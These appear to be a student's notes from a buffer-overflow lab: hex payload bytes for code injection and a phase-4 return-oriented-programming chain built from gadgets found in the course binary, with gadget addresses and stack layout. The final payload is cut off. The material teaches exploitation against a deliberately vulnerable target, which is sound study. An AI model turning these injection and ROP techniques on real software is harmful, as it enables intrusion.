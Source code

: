 ```
// 48 c7 c7 + (rsp + 0x10 backwards)
48 c7 c7 D0 64 61 55 c3

// buffer (6 lines of 0?)
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

// rsp - 0x38
88 64 61 55 00 00 00 00

// touch 3
6e 19 40 00 00 00 00 00

// cookie
37 38 66 31 61 64 35 66
```
- Phase 4
    - Cannot write code directly into stack or the buffer due to other functions using stack space
    - Must use provided gadgets (library functions written in code space)
    - See spec pdf for list of instructions and corresponding bytes
    - Instructions
        - Find gadgets that will pop (read) a value off the stack and store into a register, then move from that register into desired register (rdi)
        - Found: popq %rax (58 90 c3) and movq %rax, %rdi (48 89 c7 c3)
        - popq pops the "top" of stack which is the line directly above where the function is called, so the order must be:
            - 0x38 bit buffer
            - gadget 1: popq %rax
            - cookie data
            - gadget 2: movq %rax, %rdi
            - address of touch2
```
0000000000401a10 <getval_447>:
  401a10:	b8 **58 90 c3** 6d       	mov    $0x6dc39058,%eax
  401a15:	c3 

0000000000401a2b <addval_193>:
  401a2b:	8d 87 **48 89 c7** 90    	lea    -0x6f3876b8(%rdi),%eax
  401a31:	c3          

alternatives:

0000000000401a24 <addval_420>:
  401a24:	8d 87 **58 90 90 c3**    	lea    -0x3c6f6fa8(%rdi),%eax
  401a2a:	c3  

0000000000401a02 <addval_493>:
  401a02:	8d 87 **48 89 c7** c3    	lea    -0x3c3876b8(%rdi),%eax
  401a08:	c3                   	retq  

gadget 1: 401a11 or 401a26
gadget 2: 401a2d or 401a04

00 00 00 00 00 00 00 00	// buffer
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
```